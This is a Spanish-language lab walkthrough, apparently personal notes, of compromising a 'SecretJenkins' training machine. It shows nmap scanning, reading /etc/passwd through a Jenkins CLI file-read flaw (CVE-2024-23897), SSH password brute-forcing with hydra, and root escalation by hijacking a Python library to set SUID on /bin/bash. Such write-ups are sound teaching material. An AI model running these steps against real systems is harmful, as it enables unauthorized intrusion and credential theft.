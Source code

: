 - Tags: #SecretJenkings
---
[Maquina SecretJenkins](https://mega.nz/file/wbEwUBRY#z7bH1Hj9-6tsD2G0ji0tBujUbFaE7w8W3YhvV0MpMQs) ==> Enlace de descarga al laboratorio
```bash
7z x secretjenkins.zip # Descomprimimos el archivo
sudo bash auto_deploy.sh secretjenkins.tar # Desplegamos el laboratorio
```

#### Fase Reconocimiento:
```bash
172.17.0.2 # Direccion IP del Target
ping -c 1 172.17.0.2 # Lanzamos una traza ICMP para determinar si tenemos conectiviada con el target
wichSystem.py 172.17.0.2 # Determinamos que estamos ante una maquina Linux
172.17.0.2 (ttl -> 64): Linux
```

#### Fase Reconcomiento Puertos:
```bash
nmap -p- -sS --open --min-rate 5000 -vvv -n -Pn 172.17.0.2 -oG allPorts # Realizamos descubrimiento de puertos.
scanerTCPV2.py -t 172.17.0.2 -p 1-10000 # Asi mismo nuestra herramienta nos
extractPorts allPorts # Parseamos la informacion mas relevante del primer escaneo
nmap -sC -sV -p22,8080 172.17.0.2 -oN targeted # Realizamos un escaneo para determinar el servicio y la version que corren detrras de estos puertos.
```

**( 22/tcp   open  ssh     OpenSSH 9.2p1 Debian 2+deb12u2 (protocol 2.0) )** ==> Tenemos el servicio ssh expuesto.
**( 8080/tcp open  http    Jetty 10.0.18 )** ==> Tenemos este servicio expuesto. El servicio Jetty en el puerto 8080 ==es un servidor web y contenedor de servlets de código abierto, que se usa comúnmente para alojar aplicaciones web en el ecosistema Java==. Este puerto es el predeterminado para Jetty, y se usa para acceder a las aplicaciones web en el local, por ejemplo, a través de la URL `http://localhost:8080`

#### Fase Reconocimiento Web:
```bash
nmap --script http-enum -p8080 172.17.0.2 # Lanzamos el script para enumeracion de nmap, 
# Potenciales archivos.
/robots.txt: Robots file
/api/: Potentially interesting folder
/secured/: Potentially interesting folder (401 Unauthorized)
```

[Exploit Jenkins](https://github.com/vulhub/vulhub/tree/master/jenkins/CVE-2024-23897) ==> Tenemos un potencial exploit para abusar de este servicio
```bash
http://172.17.0.2:8080/jnlpJars/jenkins-cli.jar # Descargamos el cliente desde la url
java -jar jenkins-cli.jar -s http://172.17.0.2:8080/ -http connect-node "@/etc/passwd" # Una ves descargado ya podemos usarlo para listar archivos del sistema. 
# Tenemos dos usuarios a los cuales realizaremos fuerza bruta para encontrar sus credenciales con nmap o hydra..
pinguinito 
bobby
```

```bash
hydra -l bobby -P /usr/share/wordlists/rockyou.txt ssh://172.17.0.2
-------------------------------------------------------------------
[22][ssh] host: 172.17.0.2   login: bobby   password: chocolate # Obtuvimos la credencial del usuario bobby
```

#### Fase Intrusion:
```bash
ssh-keygen -R 172.17.0.2 && ssh bobby@172.17.0.2 # Proporcionamos la password: ( chocolate )
```

#### Fase Escalada Privilegios
```bash
sudo -l
User bobby may run the following commands on cf63927f9f8e:
    (pinguinito) NOPASSWD: /usr/bin/python3

 sudo -u pinguinito /usr/bin/python3 -c 'import os; os.system("/bin/bash")' # Migramos de usuario.
```

```bash
 sudo -l 
 User pinguinito may run the following commands on cf63927f9f8e:
    (ALL) NOPASSWD: /usr/bin/python3 /opt/script.py # Tenemos una via potencial de elevar privilegios de root.

/opt/script.py # Tenemos este script que utiliza la libreria ( shutil ) la cual tendremos que secuestrar
/opt # Aqui crearemos un script ( shutil.py ) para que cuando se ejecute el script tome primero el que nosotros creamos
export PATH=:/opt$PATH # Modificamos el path para que sea buscado primero en /opt
touch shutil.py
chmod +x shutil.py
echo 'import os; os.system("chmod u+s /bin/bash")' > shutil.py

sudo -u root /usr/bin/python3 /opt/script.py # Ejecutamos el script como root.

ls -l /bin/bash # Logramos cambiar los permiso de la bash.,
-rwsr-xr-x 1 root root 1265648 Apr 23  2023 /bin/bash

bash -p # Obtendremos una shell como root.
```